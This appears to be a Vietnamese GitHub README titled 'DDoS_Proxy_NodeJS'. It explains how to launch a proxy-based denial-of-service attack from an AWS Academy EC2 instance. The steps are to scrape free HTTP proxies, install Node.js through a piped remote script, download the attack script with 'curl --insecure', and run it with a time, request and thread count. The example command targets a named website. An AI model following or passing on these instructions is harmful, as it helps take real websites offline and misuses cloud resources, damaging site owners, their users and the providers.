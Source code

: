 # DDoS_Proxy_NodeJS
https://awsacademy.instructure.com/courses/74031/modules/items/6643523

website lấy proxy http(tạo một tệp txt rồi copy hết tất cả trong trang web này)
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=10000&country=all&ssl=all&anonymity=all

https://upload-vpn.vinahost.vn/ (website upload file len terminal remote tren website)
Kéo thả file proxy và script chạy(đã gửi) lên trang web

Linux
-----------------------------------------------------------------
Qua terminal bên ec2
Copy lệnh dưới và dán vào:
Sudo apt update -y
Curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
Sudo apt-get install nodejs -y

Tiếp theo qua website upload copy link file mà bạn đã upload
Lệnh upload trên terminal: curl -O link --insecure
Vd: curl -O https://example.com/file.js --insecure

-----------------------------------------------------------------

Sau khi upload đủ cả 2 file dùng: ls để kiểm tra xem đã có 2 file vừa upload chưa
Dùng tiếp lệnh npm i colors
-> Để cài đặt module cho script đuôi .js

Lệnh chạy script
node file.js link thời_gian requests/proxy threads(luồng) proxy_file
vd: node CF-Strong.js http://www.thayphet.net/ 300 64 12 Proxy.txt

Cách kiểm tra số luồng hiện có trên terminal: lscpu
Kiếm dòng: Thread(s) per core:
